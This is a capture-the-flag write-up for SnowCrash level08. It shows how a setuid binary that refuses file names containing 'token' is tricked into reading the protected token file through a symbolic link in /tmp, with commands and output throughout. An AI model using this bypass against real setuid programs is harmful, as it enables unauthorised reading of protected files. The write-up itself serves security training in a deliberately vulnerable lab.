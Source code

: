 # Level08

## Research
------------------

```bash
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

```bash
level08@SnowCrash:~$ strings level08
[...]
printf
strstr
read
open
[...]
token
```

We can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name.

```bash
level08@SnowCrash:~$ echo 'hello' > /tmp/hello
level08@SnowCrash:~$ ./level08 /tmp/hello
hello
level08@SnowCrash:~$ ./level08 /tmp/cctoken
You may not access '/tmp/cctoken'
```
The theory seems true: the program will open, read and print anyfile which doesn't have token in its name.

- How to make it access and read `token` through a file not named 'token'?

## Solution
------------------

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
```
gives the token.
